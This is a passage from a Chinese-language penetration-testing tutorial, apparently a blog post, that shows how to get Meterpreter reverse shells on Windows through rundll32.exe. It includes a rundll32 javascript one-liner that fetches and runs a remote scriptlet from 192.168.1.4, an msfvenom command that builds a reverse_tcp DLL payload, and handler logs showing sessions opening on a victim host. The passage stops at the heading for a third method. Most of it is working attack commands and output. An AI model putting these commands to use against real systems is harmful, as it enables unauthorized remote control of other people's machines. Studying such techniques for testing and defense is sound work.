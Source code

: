 ![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101016532178.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**

    C:\Windows\SysWOW64\rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();GetObject("script:http://192.168.1.4/Rundll32_shellcode")
    
        

注：x64 rundll32.exe-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010165334730.png%23pic_center)

    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    [*] Sending stage (179779 bytes) to 192.168.1.5
    [*] Meterpreter session 57 opened (192.168.1.4:53 ‐> 192.168.1.5:41274)
    at 2019‐01‐19 04:13:26 ‐0500
    meterpreter > getuid
    Server username: John‐PC\John
    meterpreter > getpid
    Current pid: 7064
    meterpreter >
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010165358363.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**基于本地加载（2）：**

payload配置：

    msfvenom ‐a x86 ‐‐platform windows ‐p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐f dll > Micropoor_Rundll32.dll
    
        

**靶机执行：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010165431252.png%23pic_center)

    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    [*] Sending stage (179779 bytes) to 192.168.1.5
    [*] Meterpreter session 63 opened (192.168.1.4:53 ‐> 192.168.1.5:43320)
    at 2019‐01‐19 04:34:59 ‐0500
    meterpreter > getuid
    Server username: John‐PC\John
    meterpreter > getpid
    Current pid: 6656
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010165455394.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**基于命令执行（3）：**

**靶机执行：**

Windows 2003：
